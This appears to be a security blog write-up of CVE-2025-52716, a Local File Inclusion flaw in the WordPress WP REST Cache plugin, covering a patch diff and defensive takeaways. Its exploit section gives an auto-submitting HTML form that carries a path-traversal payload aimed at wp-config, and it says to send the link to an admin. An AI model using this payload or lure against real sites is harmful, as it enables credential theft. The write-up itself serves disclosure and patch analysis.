 ```yaml
---
title: CVE-2025-52716 Analysis & POC
description: Security Vulnerability in WordPress WP REST Cache Plugin.
date: 2025-10-20 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, lfi]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info

The **WP REST Cache** plugin version **≤ 2025.1.0** contains a **Local File Inclusion** vulnerability that allows an unauthenticated attacker to control the file parameter used in `include/require`, thereby injecting or reading local files on the server (e.g., configuration files containing credentials), leading to leakage of sensitive information and, in some configurations, possible code execution.

* **CVE ID**: [CVE-2025-52716](https://www.cve.org/CVERecord?id=CVE-2025-52716)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 2025.1.0
* **Patched Versions**: 2025.1.1
* **CVSS severity**: High (7.5)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress WP REST Cache Plugin](https://wordpress.org/plugins/wp-rest-cache/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **WP REST Cache**: **2025.1.0** (vulnerable) and **2025.1.1** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect differences between the two versions.

## Analysis

### Patch diff

**Vulnerable version**:

```php {filename="class-admin.php v2025.1.0" hl_lines=[4,10,12]}
public function settings_page() {
    $this->settings_panels = apply_filters( 'wp_rest_cache/settings_panels', $this->settings_panels );

    $sub = filter_input( INPUT_GET, 'sub', FILTER_SANITIZE_FULL_SPECIAL_CHARS );
    if ( empty( $sub ) ) {
        $sub = 'settings';
    }
    include_once __DIR__ . '/partials/header.php';
    if ( isset( $this->settings_panels[ $sub ]['template'] ) ) {
        include_once $this->settings_panels[ $sub ]['template'];
    } elseif ( file_exists( __DIR__ . '/partials/sub-' . $sub . '.php' ) ) {
        include_once __DIR__ . '/partials/sub-' . $sub . '.php';
    } else {
        include_once __DIR__ . '/partials/sub-settings.php';
    }
}
```

In the vulnerable version, `$sub` is the value returned by [`filter_input()`](https://www.php.net/manual/en/function.filter-input.php) taken from the GET parameter (`?sub=...`) in the URL using the filter [`FILTER_SANITIZE_FULL_SPECIAL_CHARS`](https://www.w3schools.com/php/filter_sanitize_special_chars.asp), which escapes `"<>&` and characters with ASCII values below 32. This filter does not remove `.` (46) or `/` (47).

`$sub` is concatenated into a string with the `'.php'` suffix and then `include_once`d without any protection against **LFI**.

**Patch**:

```php {filename="class-admin.php v2025.1.1" hl_lines=[4,9,10,11,12,16,18]}
public function settings_page() {
    $this->settings_panels = apply_filters( 'wp_rest_cache/settings_panels', $this->settings_panels );

    $sub = filter_input( INPUT_GET, 'sub', FILTER_SANITIZE_FULL_SPECIAL_CHARS );
    if ( empty( $sub ) ) {
        $sub = 'settings';
    }

    $potential_sub_file = __DIR__ . '/partials/sub-' . $sub . '.php';
    if ( dirname( $potential_sub_file ) !== __DIR__ . '/partials' ) {
        $sub = 'settings';
    }

    include_once __DIR__ . '/partials/header.php';
    if ( isset( $this->settings_panels[ $sub ]['template'] ) ) {
        include_once $this->settings_panels[ $sub ]['template'];
    } elseif ( file_exists( __DIR__ . '/partials/sub-' . $sub . '.php' ) ) {
        include_once __DIR__ . '/partials/sub-' . $sub . '.php';
    } else {
        include_once __DIR__ . '/partials/sub-settings.php';
    }
}
```

The patch adds a **check on the file location before include**, ensuring the file to be loaded is located within the `partials` directory. If a path outside that directory is detected (e.g., due to `../`), the plugin falls back to a safe default file. This eliminates the **LFI** vulnerability.

### Vulnerable Code

`settings_page()` is registered as the submenu callback:

```php {filename="class-admin.php v2025.1.0" hl_lines=[8,9]}
add_submenu_page(
    'options-general.php',
    'WP REST Cache',
    'WP REST Cache',
    $capability,
    'wp-rest-cache',
    [
        $this,
        'settings_page',
    ]
);
```

So when the endpoint

```http
GET /wp-admin/options-general.php?page=wp-rest-cache HTTP/1.1
```

is accessed, `settings_page()` is invoked.

## Exploit

### Proof of Concept (PoC)

#### Step 1

Create a web page with a form that automatically sends a request with the LFI payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://localhost:80//wp-admin/options-general.php" method="get">
        <input type="text" name="page" value="wp-rest-cache">
        <input type="text" name="sub" value="/../../../../../../wp-cofnig">
    </form>
    <script>
        document.forms[0].submit()
    </script>
</body>
</html>
```

#### Step 2

Send the link to an admin or a privileged user

> [!WARNING]
> This vulnerability can only be exploited on **Windows**, because `file_exists()` handles paths differently between operating systems. On **Linux**, if the path includes a non-existent directory, the function returns `false`. On **Windows**, the same path may return `true`, allowing the condition check to be bypassed and the vulnerability to be triggered.

## Conclusion

WP REST Cache versions **≤ 2025.1.0** allow **Local File Inclusion** via the `sub` parameter. The patch in **2025.1.1** fixes the issue by validating the file location before including it—ensuring files are only loaded if they reside in the `partials` directory—thereby preventing path traversal/LFI.

## Key takeaways

* Concatenating request data directly into file paths risks LFI.
* Always validate the **real/resolved** file location (absolute path) before including.
* Restrict allowed files by comparing against an intended directory (whitelist) — this is more effective than merely sanitizing characters.
* Test on multiple platforms (Windows/Linux) since file-handling behavior can differ.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress WP REST Cache Plugin <= 2025.1.0 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/wp-rest-cache/vulnerability/wordpress-wp-rest-cache-2025-1-0-local-file-inclusion-vulnerability)
